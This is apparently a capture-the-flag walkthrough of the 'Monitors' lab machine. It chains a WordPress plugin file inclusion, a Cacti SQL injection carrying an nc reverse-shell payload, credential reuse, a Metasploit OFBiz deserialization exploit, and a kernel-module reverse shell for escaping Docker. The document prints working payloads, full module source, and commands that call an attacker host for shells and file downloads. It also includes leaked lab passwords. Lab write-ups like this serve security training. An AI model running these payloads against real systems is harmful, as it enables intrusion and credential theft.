

Monitors Walkthrough¶
Overview¶
Machine Info¶
| IP | Difficulty | OS |
|---|---|---|
| 10.10.10.238 | Hard | Linux |
Recon¶
NMAP¶
Ξ monitors/notes → nmap 10.10.10.238
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 13:10 EDT
Nmap scan report for 10.10.10.238
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Enumeration¶
WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion¶
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false
wp-config.php content:
<?php
.....
define( 'DB_USER', 'wpadmin' );
/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
.....
Reading php logs
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/proc/self/fd/10
we will find a new subdomain: cacti-admin.monitors.htb
Exploitation¶
SQLi in Cacti CMS¶
First of all login into Cacti CMS with credentials: admin:BestAdministrator@2020!
After Researching, found that Cacti is vulnerable to SQLi. See the following link: https://github.com/Cacti/cacti/issues/3622
We can exploit it by typing the following into the URL:
http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1%27)+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value=%27rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.14.x+9001+%3E/tmp/f;%27+where+name=%27path_php_binary%27;--+-
Run netcat listener in local machine with port 9001:
nc -nlvp 9001
Then enter:
http://cacti-admin.monitors.htb/cacti/host.php?action=reindex&host_id=1
You will receive reverse shell as user www-data:
nnc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.x] from (UNKNOWN) [10.10.10.238] 56312
www-data@monitors:/usr/share/cacti/cacti$
Pivot to Marcus¶
ww-data@monitors:/etc$ cat /etc/systemd/system/cacti-backup.service
cat /etc/systemd/system/cacti-backup.service
...
ExecStart=/home/marcus/.backup/backup.sh
...
www-data@monitors:/etc$ cat /home/marcus/.backup/backup.sh
cat /home/marcus/.backup/backup.sh
#!/bin/bash
backup_name="cacti_backup"
config_pass="VerticalEdge2020"
...
marcus:VerticalEdge2020
SSH into the target as Marcus
ssh -l marcus 10.10.10.238
Privilege Escalation¶
Enumerating¶
While inside docker container, I saw one local service running at localhost port 8443.
marcus@monitors:~$ netstat -tulpn
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:8443 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 0.0.0.0:41695 0.0.0.0:* -
udp 0 0 127.0.0.53:53 0.0.0.0:* -
udp 0 0 127.0.0.1:161 0.0.0.0:* -
Port Forward¶
In order to access the local service, use SSH port forward using the following command:
ssh -L 8443:127.0.0.1:8443 marcus@monitors.htb
Now we can access local service in our local machine at 127.0.0.1:8443

Exploiting Tomcat 9.0.31¶
We identified that service is running Tomcat 9.0.31, which is vulnerable to RCE in Apache OFBiz XMLRPC via Deserialization of Untrusted Data (CVE-2020-9496).
We can exploit it using Metasploit:
use exploit/linux/http/apache_ofbiz_deserialiation
set payload linux/x64/shell_reverse_tcp
set rhosts 127.0.0.1
set lport 8443
set forceexploit true
set lhost tun0
set srvhost tun0
exploit
Then we will get RCE inside docker container:
Escaping Docker Container¶
We can escape docker container by abusing SYS_MODULE capability. See the following link:
https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd
To exploit it, follow these steps
- Create file
reverse-shell.c:
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.10.238/1234 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
- Create file
Makefile:
obj-m +=reverse-shell.o
all:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
-
Transfer them into the target machine:
-
Local
python3 -m http.server 8002 -
Target
wget http://10.10.14.x:8002/reverse-shell.c wget http://10.10.14.x:8002/Makefile
Make sure to create folder in
/tmpfolder, and save those files inside that folder, ex:/tmp/exploit/reverse-shell.c
- Compile the exploit using
makecommand
root@84e75d9a2984:/tmp/reversenotshell# make
make
make -C /lib/modules/4.15.0-142-generic/build M=/tmp/reversenotshell modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
CC [M] /tmp/reversenotshell/reverse-shell.o
Building modules, stage 2.
MODPOST 1 modules
CC /tmp/reversenotshell/reverse-shell.mod.o
LD [M] /tmp/reversenotshell/reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
- Inside the target machine open netcat listener
nc -nlvp 1234
- Finally run the following command:
root@84e75d9a2984:/tmp/reversenotshell# insmod reverse-shell.ko
insmod reverse-shell.ko
You will receive shell as root use in the target machine
marcus@monitors:/tmp$ nc -nlvp 4455
Listening on [0.0.0.0] (family 0, port 4455)
Connection from 10.10.10.238 45176 received!
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# id
id
uid=0(root) gid=0(root) groups=0(root)